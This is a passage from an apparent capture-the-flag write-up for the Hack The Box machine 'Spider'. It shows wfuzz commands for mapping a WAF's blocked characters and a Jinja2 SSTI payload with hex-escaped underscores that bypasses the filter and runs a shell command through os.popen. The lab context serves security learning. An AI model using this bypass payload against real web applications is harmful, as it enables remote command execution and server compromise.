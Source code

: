 
### Exploiting Admin Panel

There is one message:
```
Fix the /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal portal!
```

This directory exists and shows a portal to submit support tickets.
When testing for **SSTI** payloads, there is a **Web Application Firewall** that blocks the requests, but the following results in a HTTP status code _500 Internal Server Error_:
```
{% test %}
```

This [article on HackMD](https://hackmd.io/@Chivato/HyWsJ31dI) explains this method of **SSTI**.

To bypass the **WAF**, we need to check which special characters are not allowed:
```
wfuzz -H 'Cookie: session=eyJjYXJ0X2l0ZW1zI(...)' -u http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal -d 'contact=FUZZ&message=a' -w /usr/share/seclists/Fuzzing/special-chars.txt
```

Unfortunately most requests resolve in the HTTP status code _429 Too Many Requests_, so the **WAF** blocks that many requests at once and the fuzzing has to be slowed down:
```
wfuzz -H 'Cookie: session=eyJjYXJ0X2l0ZW1zI(...)' -u http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal -d 'contact=FUZZ&message=a' -w /usr/share/seclists/Fuzzing/special-chars.txt -t 1 -s .5
```

After letting it run and then hiding all responses with a character length of 1565 with the `--hh 1565` parameter, there are three characters that respond with a different length of characters and thus are blocked by the **WAF**:
```
1607 Ch     "_"
1607 Ch     "."
1607 Ch     "'"
```

We can try a [payload with filter bypass from PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass) and modify it accordingly to bypass the **WAF**:
```
POST /a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal HTTP/1.1
Host: spider.htb
(...)

contact={% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep 5")|attr("read")()%}&message=a
```

The request takes 5 seconds to reply, which means it executed the `sleep 5` command and this command execution can now be used to gain a reverse shell.
